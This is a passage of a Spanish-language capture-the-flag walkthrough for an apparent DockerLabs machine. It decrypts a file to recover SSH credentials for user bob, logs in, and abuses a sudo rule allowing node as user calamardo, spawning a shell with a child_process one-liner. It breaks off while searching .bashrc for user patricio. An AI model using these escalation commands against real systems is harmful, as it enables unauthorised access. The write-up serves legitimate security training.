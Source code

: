 ```shell
pip3 install pycryptodome
```

```shell
python3 decrypt.py private.txt
```

Info:

```
Desencriptación completada con éxito. Archivo guardado en: private_decrypted.bin
```

Ahora si leemos el archivo desencriptado:

```
las credenciales ssh son: bob:56000nmqpL
```

Vemos que obtuvimos unas credenciales, por lo que haremos lo siguiente:

### SSH

```shell
ssh bob@<IP>
```

Metemos como contraseña `56000nmqpL` y veremos que estamos dentro.

## Escalate user calamardo

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bob on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on dockerlabs:
    (calamardo) NOPASSWD: /bin/node
```

Vemos que podemos ejecutar el binario `node` como el usuario `calamardo`, por lo que vamos hacer lo sisguiente:

```shell
sudo -u calamardo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
bash
```

Y con esto ya seremos el usuario `calamardo`.

## Escalate user patricio

Si hacemos lo siguiente:

```shell
cat .bashrc | grep "patricio"
```

